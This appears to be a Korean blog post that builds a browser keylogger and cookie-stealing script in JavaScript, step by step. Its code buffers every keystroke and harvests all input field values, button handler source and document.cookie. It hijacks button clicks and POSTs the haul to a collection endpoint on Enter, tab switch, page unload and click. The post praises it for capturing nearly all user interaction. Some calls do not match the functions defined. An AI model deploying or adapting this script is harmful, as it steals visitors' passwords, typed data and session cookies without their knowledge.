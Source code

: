 <hr />

# Keylogger js 구현
> `javascript`로 `keylogger` 및 `쿠키 탈취`를 구현한다.

---

## 주요 기능 구상

1. 데이터 셋팅
    - 어떤 타입으로 왔는지
    - 버튼 이벤트 체크
    - 사용자가 타이핑 했던 값들
    - input 태그의 값들
    - 쿠키 값들
2. 타이핑 값 셋팅
3. 이벤트 발생 시 셋팅 데이터 발송
    - 엔터 이벤트
    - 화면이 안보일 때
    - 화면이 바뀌었을 때
    - 버튼을 눌렀을 때

---

## 1. 데이터 셋팅
>   - 어떤 타입으로 왔는지
>   - 버튼 이벤트 체크
>   - 사용자가 타이핑 했던 값들
>   - input 태그의 값들
>   - 쿠키 값들
---

```javascript
function setData(type, btnElement){
    const inputList = [];
    const inputs = document.querySelectorAll("input");
    inputs.forEach(i=>{
        const id = {
            "name" : i.name,
            "id" : i.id,
            "value" : i.value
        }
        inputList.push(id);
    });
    const buttonAttr = btnElement ? {"btnYn" : true} : {"btnYn" : false};

    if(btnElement){
        Array.from(btnElement.attributes).forEach(attr => {
            const key = attr.name;
            const value = attr.value;
            let processValue;

            if(btnElement[key] && typeof btnElement[key] === "function"){
                processValue = btnElement[key].toString();
            } else {
                processValue = value;
            }
            buttonAttr[key] = processValue;
        });
    }

    const cookies = document.cookie.split(";").map(cookie =>{
        const [key, value] = cookie.split("=");
        return {[key] : value};
    }).filter(cookie => cookie.key !== "" && typeof cookie.value !== "undefined");

    const req = {
        "type" : type,
        "inputList" : inputList,
        "keyData" : keyData,
        "cookies" : cookies,
        "btnYn" : buttonAttr
    }

    return req;
}
```
#### 설명
> - `input`태그들을 들고와서 for문으로 값들을 가지고와서 배열에 넣어둠
> - 버튼이 있다면 `true`, 없다면 `false` 셋팅
>   - 버튼이 있다면 `attributes`로 값을 list에 넣어서 for문 돌려서 값들을 빼냄
>   - 함수가 걸려 있다면 함수도 같이 집어 넣음
>   - 함수가 안걸려 있다면 그냥 value값을 집어 넣음
>   - 버튼의 `attribute`가 `key`가 되고 `value`를 `value`로 설정 후 배열에 넣어둠
> - `cookie`를 가지고와서 `key`,`value`로 분리 후에 배열에 집어 넣음
> - 모든 값을 `json`형태의 객채로 만들어서 `return` 시킴

---

## 2. 타이핑 값 셋팅

```javascript
    // 전역 변수설정
    let keyData ="";

    // 키로깅 함수
    function keylogging(e){
        if(e.code === "Enter" || e.code === "NumpadEnter"){
            sendData(null, "pressEnter");
        } else {
            keyData += e.key;
        }
    }

    window.onkeydown = (e) => keylogging(e);
```
#### 설명
> - `keyData` 전역 변수 설정
> - `keylogging`함수 생성
>   - `Enter` 누르거나 `NumpadEnter`누를 시에 데이터 전송 함수 실행
>   - 다른 키를 누른다면 전역 변수에 계속 누적

---

## 3. 이벤트 발생 시 셋팅 데이터 발송
>    - 엔터 이벤트
>    - 화면이 안보일 때
>    - 화면이 바뀌었을 때
>    - 버튼을 눌렀을 때

```javascript
// 화면이 안보일 때 발송
document.addEventListener("visibilitychange", ()=>{
    if(document.visibilityState === "hidden"){
        fetch("/test/keylogger", {
            method: "POST",
            headers: {
                "Content-Type": "application/json; charset=UTF-8"
            },
            body: JSON.stringify(setData("visibilitychange"))
        });
        keyData = '';
    }
});

// 화면이 변경 되면 발송
window.addEventListener("beforeunload", (e)=>{
    fetch("/test/keylogger", {
        method: "POST",
        headers: {
            "Content-Type": "application/json; charset=UTF-8"
        },
        body: JSON.stringify(setData("beforeunload"))
    });
});

// 버튼 클릭시 발송
window.onload = (()=>{
    let btns = document.querySelectorAll("button");
    btns.forEach(btn => {
        origin = btn.onclick===null ? (()=>{}) : btn.onclick.bind({});
        btn.onclick = () =>{
            sendData(btn, "btnSend");
            origin();
        }
    });
});
```
#### 설명
> - 문서에 화면이 `hidden` 상태(다른탭으로 이동 시)가 되면 `fetch`를 통해 비동기로 데이터 발송
> - 문서가 다른 화면으로 변경 시에 `fetch`를 통해 비동기로 데이터 발송
> - 버튼 클릭 시에 데이터 발송
>   - 기존의 버튼 이벤트는 문서 발송 이후에 실행 하도록 설정

---
## 결과 이미지
#### 화면이 안보일 때
![화면이 안보일 때](https://jeongmooon.github.io/img/report/keylogger/visibilitychange.png)

#### 화면이 바뀌었을 때
![화면이 바뀌었을 때](https://jeongmooon.github.io/img/report/keylogger/beforeunload.png)

#### 버튼을 눌렀을 때
![화면이 바뀌었을 때](https://jeongmooon.github.io/img/report/keylogger/btnSend.png)

---

## 결론
> 본 Keylogger 스크립트는 사용자의 입력, 버튼 클릭, 페이지 이동 등의 주요 이벤트를 감지하여 입력 데이터, 쿠키 정보 등을 실시간으로 수집하고 서버로 전송하는 기능을 구현하였다.
> - setData를 통해 수집된 데이터는 `fetch` API를 사용하여 비동기적으로 안전하게 서버로 전송된다.
> - 모든 전송은 `application/json; charset=UTF-8` 포맷으로 설정되어 있으며, 서버는 이를 JSON 형태로 받아 처리할 수 있다.
> - 주요 이벤트(타이핑, Enter, 탭 이동, 페이지 언로드, 버튼 클릭 등)를 포괄적으로 커버함으로써 실질적으로 거의 모든 사용자의 상호작용을 수집할 수 있다.
>
> 추가적으로, 서버와의 문자 인코딩 이슈(한글 깨짐 등)를 방지하기 위해 반드시 서버 측에서도 UTF-8 인코딩 설정을 일관되게 유지해야 한다.
> 최종적으로 본 스크립트는 다양한 상황에서도 데이터 누락 없이 사용자 행동 데이터를 안정적으로 수집하는 데 목적을 둔다.

<hr />